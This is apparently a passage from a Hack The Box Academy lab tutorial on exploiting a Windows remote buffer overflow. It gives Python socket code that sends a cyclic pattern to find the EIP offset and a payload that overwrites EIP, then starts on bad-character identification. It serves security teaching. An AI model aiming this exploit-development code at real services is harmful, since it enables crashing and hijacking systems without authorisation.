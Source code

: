 ```python
def eip_offset():
    pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    ...SNIP...
                    "5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co", "utf-8")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(pattern)
    s.close()

eip_offset()
```

Once our `eip_offset()` function is ready, we can restart our program in `x32dbg` and run our code, and our program should crash, and we should see `EIP` overwritten with our pattern as `316A4230`:

Now we can use `ERC --pattern o 1jB0` to calculate the exact offset, which is found at `1052` bytes:

![Pattern Offset](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern_offset.jpg)

Now to ensure that we can control the exact value at `EIP`, we'll use the same `eip_control()` function from our previous exploit (while changing `offset`), but with using `socket` to send our payload instead of writing it to a file:

Code: python

```python
def eip_control():
    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

eip_control()
```

We'll once again restart our program and run our exploit, and we can confirm that we control `EIP` as we overwrote `EIP` with 4 `B`'s: ![Pattern Control](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern_control.jpg)

---

## Identifying Bad Characters

Our next step is to identify whether we should avoid using any bad characters in our input. We can start by running `ERC --bytearray` in `x32dbg` to create our `ByteArray_1.bin` file. Then we can copy the same `bad_chars()` functions from our previous exploit, and once again change from writing the payload to a file to sending it to the port:
